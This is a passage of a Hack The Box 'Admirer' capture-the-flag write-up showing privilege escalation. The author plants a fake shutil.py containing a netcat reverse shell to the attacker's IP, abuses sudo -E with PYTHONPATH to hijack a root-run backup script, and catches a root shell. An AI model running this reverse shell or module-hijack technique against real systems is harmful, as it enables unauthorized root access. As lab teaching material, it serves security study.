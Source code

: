 Alright so first I created a fake library named `shutil.py` with a function `make_archive` in `/tmp` directory which had our reverse shell payload.

{% highlight bash %}
waldo@admirer:/tmp$ mkdir temp
waldo@admirer:/tmp$ cd temp
waldo@admirer:/tmp/temp$ vi shutil.py
waldo@admirer:/tmp/temp$ cat shutil.py 
#!/usr/bin/python3

def make_archive(x,y,z):
	import os
	os.system("nc 10.10.14.19 9889 -e /bin/bash")
{% endhighlight %} 

Starting the nmap listener on local machine `rlwrap nc -lvnp 9889`. And then execute our `admin_tasks.sh` script with option 6 but main point is, we need to export `pythonpath` as pwd i.e `/tmp/temp` folder so that the script uses our `fake shutil` library/module.

{% highlight bash %}
waldo@admirer:/tmp/temp$ sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
{% endhighlight %} 

Looking at our rev shell, and yes we got a connection.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Admirer]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.187] 42894
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/tmp/temp
cd /root
wc -c root.txt
33 root.txt
{% endhighlight %} 

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.